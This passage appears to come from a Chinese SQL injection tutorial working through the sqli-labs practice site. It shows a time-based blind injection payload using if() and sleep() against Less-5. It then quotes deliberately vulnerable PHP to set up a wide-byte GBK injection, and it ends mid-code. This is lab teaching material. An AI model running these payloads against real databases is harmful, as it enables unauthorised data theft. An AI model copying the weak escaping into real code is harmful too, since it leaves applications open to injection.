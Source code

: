 **2、时间盲注**<br />**常用函数：**<br />**1.if(condition,A,B)**<br />if(condition,A,B)如果条件condition为true，则执行语句A，否则执行B<br />例： select if(1>2,4,5); 返回的结果是5.（如果是在mysql命令行中使用，首先要use xxx数据库才行）

**2.sleep()函数**<br />设置睡眠时间<br />例：sleep(5) 睡眠5秒

判断出数据库：
```sql
http://192.168.1.8/Less-5/?id=1' and if(substr((select database()),1,1)='s',1,sleep(5))--+
```
判断数据库的第一个字母是不是“s”，是则页面直接显示结果，不是则延迟5S返回结果。


# 五、宽字节注入

## 5.1、代码分析
```php
<?php
  //including the Mysql connect parameters.
  include("../sql-connections/sql-connect.php");

function check_addslashes($string)
{
  $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
  $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
  $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash


  return $string;
}

// take the variables 
if(isset($_GET['id']))
{
  $id=check_addslashes($_GET['id']);
  //echo "The filtered request is :" .$id . "<br>";

  //logging the connection parameters to a file for analysis.
  $fp=fopen('result.txt','a');
  fwrite($fp,'ID:'.$id."\n");
  fclose($fp);

  // connectivity 

  mysql_query("SET NAMES gbk");
  $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
  $result=mysql_query($sql);
  $row = mysql_fetch_array($result);

  if($row)
  {
    echo '<font color= "#00FF00">';	
    echo 'Your Login name:'. $row['username'];
    echo "<br>";
    echo 'Your Password:' .$row['password'];
    echo "</font>";
  }
  else 
  {
    echo '<font color= "#FFFF00">';
    print_r(mysql_error());
    echo "</font>";  
```